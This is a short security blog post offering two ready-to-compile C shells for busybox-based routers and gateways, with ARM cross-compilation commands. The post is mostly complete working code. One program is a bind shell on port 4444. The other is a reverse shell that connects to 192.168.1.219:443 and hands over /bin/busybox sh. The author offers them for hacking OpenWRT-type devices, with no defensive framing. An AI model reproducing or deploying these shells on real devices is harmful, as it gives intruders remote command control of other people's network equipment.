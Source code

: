 ```yaml
---
title: "C Shells for Routers/Gateways"
date: 2019-05-02T20:24:45+02:00
draft: false
categories:
- posts
tags:
- security
- shells
keywords:
- security
- shells
- embedded
coverSize: partial
coverMeta: in
autoThumbnailImage: true
---
```


Today at work, we made these two C Shells for embedded devices that run busybox. One is a bind shell and the other is a reverse shell.<!--more--> This was tested on a rooted home gateway that was running of an armv7l CPU. I compiled this on Ubuntu 16.04.6 LTS, therefore needing the cross-compilation libraries and tools.

Installing the libraries & tools:
```bash
root@ubuntu:~/asm$ sudo apt-get install gcc-arm-linux-gnueabi binutils-arm-linux-gnueabi libncurses5-dev libc6-armel-cross
```

Compiling:
```bash
root@ubuntu:~/asm$ arm-linux-gnueabi-gcc shell.c -g -o shell
```
If you need some shells that may work in some OpenWRT Devices, then compile and hack away!

<hr>
### Bind Shell
{{% tabbed-codeblock bind %}}
<!-- tab C-->
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <stdlib.h>
#include <unistd.h>
#define LOCAL_PORT 4444

int main()
{
  int resultfd, sockfd;
  struct sockaddr_in my_addr;
  char *args[] = { "/bin/busybox", "sh", NULL};
  sockfd = socket(AF_INET, SOCK_STREAM, 0);

  int one = 1;
  setsockopt(sockfd, SOL_SOCKET, SO_REUSEADDR, &one, sizeof(one));

  my_addr.sin_family = AF_INET; // 2
  my_addr.sin_port = htons(LOCAL_PORT); // port number
  my_addr.sin_addr.s_addr = INADDR_ANY; // 0 fill with the local IP

  bind(sockfd, (struct sockaddr *) &my_addr, sizeof(my_addr));
  listen(sockfd, 0);
  resultfd = accept(sockfd, NULL, NULL);
  dup2(resultfd, 2);
  dup2(resultfd, 1);
  dup2(resultfd, 0);
  execve(args[0], &args[0], 0);
  return 0;
}
<!-- endtab -->
{{% /tabbed-codeblock %}}

### Reverse Shell
{{% tabbed-codeblock rev %}}
<!-- tab C-->
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#define REMOTE_ADDR "192.168.1.219"
#define REMOTE_PORT 443

int main(int argc, char *argv[])
{
  struct sockaddr_in sa;
  int s;
  char *args[] = { "/bin/busybox", "sh", NULL};
  sa.sin_family = AF_INET;
  sa.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
  sa.sin_port = htons(REMOTE_PORT);
  s = socket(AF_INET, SOCK_STREAM, 0);
  connect(s, (struct sockaddr *)&sa, sizeof(sa));
  dup2(s, 0);
  dup2(s, 1);
  dup2(s, 2);
  execve(args[0], &args[0], 0);
  return 0;
}
<!-- endtab -->
{{% /tabbed-codeblock %}}
